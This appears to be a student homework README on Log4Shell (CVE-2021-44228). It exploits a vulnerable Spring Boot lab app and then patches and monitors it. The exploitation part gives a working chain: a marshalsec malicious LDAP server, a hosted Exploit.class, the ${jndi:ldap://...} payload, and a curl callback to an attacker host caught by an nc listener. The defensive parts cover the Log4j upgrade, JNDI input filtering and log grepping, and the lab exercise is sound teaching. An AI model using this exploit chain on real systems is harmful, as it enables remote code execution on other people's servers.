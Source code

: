 # Week9: Log4Shell Vulnerability Homework

Introduction: This project demonstrates the exploitation and mitigation of the Log4Shell vulnerability (CVE-2021-44228) using a vulnerable Java Spring Boot application deployed via Docker Compose. The objectives of this homework are:

- Simulate a real-world Log4Shell exploit scenario
- Apply MITRE ATT&CK, DEFEND, and REACT frameworks
- Harden and redeploy the application using secure coding practices

---

## Prerequisites
- Docker & Docker Compose
- Java + Maven (if building manually)
- Python 3 (for attacker LDAP simulation)
Also, Ports 8000, 8080, 1389 and 389 are open in your EC2 Security Group (for the app and LDAP server).

---

## Part 1: Exploitation (MITRE ATT&CK)
After launching the ldap app "python3 ldap_server.py"  i received this error: ldap3.core.exceptions.LDAPSocketOpenError: socket connection error while opening: [Errno 111] Connection refused; after researching this error, i came to the point of using marshalsec, which is a malicious LDAP redirect server, not a real LDAP directory; i cloned it (git clone https://github.com/mbechler/marshalsec.git) then built it. I then ran manually these commands 
### HTTP server (for payload)
cd exploit/
python3 -m http.server 8000

### LDAP redirect server
java -cp marshalsec-*.jar marshalsec.jndi.LDAPRefServer http://<your-ip>:8000/#Exploit
To exploit the Log4Shell vulnerability, a vulnerable Spring Boot app using Log4j was set up to log user input. A malicious LDAP server was launched using marshalsec to redirect requests to an HTTP server hosting a malicious Exploit.class. The exploit payload ${jndi:ldap://<attacker-ip>:1389/Exploit} was sent via a POST request to the app’s /log endpoint. When the app logged this input, it triggered the JNDI lookup, causing the app to connect to the LDAP server. This demonstrated remote code loading behavior, confirming the Log4Shell vulnerability's exploitation path from input to remote callback.

Proof of vulnerability exploitation:
![image](https://github.com/user-attachments/assets/892533b0-5fb8-49f6-9acd-80159a2bc812)
nc -lvnp 9999 listener received a connection from the target app's IP (Connection received on 164.52.0.91 51287); The incoming payload shows garbled data and headers (xterm-256color, hostname, etc.), indicating that the curl http://44.208.30.186:9999/ executed successfully inside the vulnerable app. 

To summarize What Just Happened
- the vulnerable Spring Boot app logged: {"input": "${jndi:ldap://44.208.30.186:1389/Exploit}"}
- That triggered a request to your rogue LDAP server (marshalsec).
- The LDAP server instructed the app to load a malicious .class file from your HTTP server.
- The malicious .class file contained: Runtime.getRuntime().exec("curl http://<attacker>:9999/");
- The target executed that, reaching your port 9999, confirming Remote Code Execution (RCE).

the file start_exploit.sh available in the exploit folder automates all this process.

## Part 2: Defense (MITRE DEFEND)
- Log4j upgraded to 2.17.0.
- Input validation implemented to block JNDI patterns.

To do this, we need to:
- Replace vulnerable LogController.java with patched/LogController.java.
- Upgrade log4j version to 2.17.0 in pom.xml.
- 
before: ![image](https://github.com/user-attachments/assets/70fa2a88-26a0-4531-af5c-fcfacad41415)

after: ![image](https://github.com/user-attachments/assets/cc7b0dfe-1943-4a31-a93d-7d90533207ea) 

- Rebuild and restart: the result is as follow: ![image](https://github.com/user-attachments/assets/e8071e43-2160-4ec0-a7a5-b6e1f92bf70f)

That confirms the patch is working; the pdated application successfully blocked the Log4Shell exploit attempt.
What Just Happened: we sent the malicious payload {"input": "${jndi:ldap://44.208.30.186:1389/Exploit}"} ; The updated LogController.java now includes input validation that detects and blocks JNDI injection attempts and the app returned: Blocked suspicious input!

Testing with normal input returns Logged: Hello World!

![image](https://github.com/user-attachments/assets/4204f54e-a58b-45e4-8ab9-7082524fbea8)

  


## Part 3: Response (MITRE REACT)
- Detect: Logs examined for exploit traces: docker logs $(docker ps -qf "name=app") 2>&1 | grep jndi
![image](https://github.com/user-attachments/assets/e4351711-9a18-4c52-832a-02a0572a6bd1)

 This returned nothing, which is good sign, because we are currently running the patched app; it also means the patched application successfully blocked the malicious input and did not log or process the ${jndi:...} payload.


- Contain: Vulnerable container stopped
  If we were running the unpatched app, it would have been good to contain the vulnerable container by running: docker-compose down
  
- Eradicate: Patched container deployed; here we have to ensure that patched code is deployed. We did this on part2
  
- Recover: System restored with mitigation verified; this consists of restart and test with clean input: docker-compose up --build -d
This was also done in part2

---

## Conclusion and Lessons Learned

Working through the Log4Shell vulnerability really drove home some key points about building secure software. It's easy to forget about things like logging libraries (like Log4j), but they're definitely part of what attackers can target. As we saw, just one little piece of data that's not handled correctly can open the door for someone to run code remotely if the logging system has a flaw. This really shows why it's so important to keep all our software up to date and to know what the third-party tools we're using actually do.

Plus, it's clear that we absolutely have to check everything that comes into our applications, even if it's going to internal parts. The fixed version we looked at successfully stopped malicious attacks just by cleaning up the input it received, proof that even simple checks can make a big difference!

Lastly, tools like MITRE ATT&CK and D3FEND give us a great way to think about security throughout the whole lifecycle, from finding weaknesses to fixing them and responding if something happens. They're super helpful for anyone working in cybersecurity today. This whole exercise really reinforces that being proactive with our defenses, having a good understanding of how our systems are put together, and constantly keeping an eye on things are crucial for keeping our systems secure
---

## References

- [CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228)
- [MITRE ATT&CK](https://attack.mitre.org/)
- [MITRE DEFEND](https://defend.mitre.org/)
- [MITRE REACT](https://www.mitre.org/publications/technical-papers/react-a-framework-for-incidence-response)

